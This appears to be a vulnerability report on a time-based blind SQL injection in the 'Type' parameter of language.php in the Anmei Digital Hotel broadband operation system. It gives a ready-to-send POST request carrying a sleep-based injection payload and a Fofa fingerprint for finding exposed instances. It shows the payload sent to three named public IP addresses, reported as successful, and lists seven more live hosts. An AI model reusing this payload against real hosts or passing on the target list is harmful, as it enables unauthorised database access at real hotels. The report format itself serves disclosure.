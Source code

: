 **Time blind injection type SQL injection exists in the Anmei Digital Hotel broadband operation system**

**Official website:   **[**http://www.amttgroup.com/**](http://www.amttgroup.com/)
**Function point: At the editing interface of the language configuration page language. php**
**Route: ip:port/language.php**
**The injection parameter: Type**
**Fofa syntax: icon_hash="1259797304"**
**The vulnerability verification data packet is as follows**

```
POST /language.php HTTP/1.1
Host: ip:port
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 263
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
**Vulnerability Case 1:**
[**https://113.140.76.67:6070/manager/login.php**](https://113.140.76.67:6070/manager/login.php)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499749754-39d596ac-9556-4a37-8856-8c0935953394.png#averageHue=%2399b9d3&clientId=u95a6dc4b-efa8-4&from=paste&height=785&id=u20424b60&originHeight=981&originWidth=1612&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=299714&status=done&style=none&taskId=u84bbbd48-7e5b-42b9-a187-e904cb3371c&title=&width=1289.6)
**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 113.140.76.67:6070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499722920-24ff721b-eecf-4e67-b379-3d57fcb65d29.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=674&id=u836fcc32&originHeight=843&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388228&status=done&style=none&taskId=uf0c4715f-9ee3-4069-9cb7-036ed30465f&title=&width=1264)
**Vulnerability Case 2:**
[**https://202.105.109.76:7070/manager/login.php**](https://202.105.109.76:7070/manager/login.php)
**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 202.105.109.76:7070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499824396-edd67679-0ffb-430d-bda9-250cf232fcea.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=660&id=u9bdf3b23&originHeight=825&originWidth=1578&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388316&status=done&style=none&taskId=u152bfd0b-21ed-48a7-b1f8-18d4e4719da&title=&width=1262.4)**Vulnerability Case 3:**
[**https://218.29.143.74:7071/manager/login.php**](https://218.29.143.74:7071/manager/login.php)
**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 218.29.143.74:7071
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 265
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20

```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499881158-e38995e4-a6be-4a54-bab1-5c51dec16a13.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=663&id=u1b78ab13&originHeight=829&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=386822&status=done&style=none&taskId=u25a2cfad-42ec-4257-9c34-503246b9283&title=&width=1264)
**Other cases of vulnerabilities:**
[https://183.62.208.100:7070/manager/login.php](https://183.62.208.100:7070/manager/login.php)
[https://61.185.56.165:7080/manager/login.php](https://61.185.56.165:7080/manager/login.php)
[https://1.82.161.207:7080/manager/login.php](https://1.82.161.207:7080/manager/login.php)
[https://113.59.71.176:7070/manager/login.php](https://113.59.71.176:7070/manager/login.php)
[https://119.4.56.35:7070/manager/login.php](https://119.4.56.35:7070/manager/login.php)
[https://1.202.129.226:7070/manager/login.php](https://1.202.129.226:7070/manager/login.php)
[https://202.97.137.229:62443/manager/login.php](https://202.97.137.229:62443/manager/login.php)
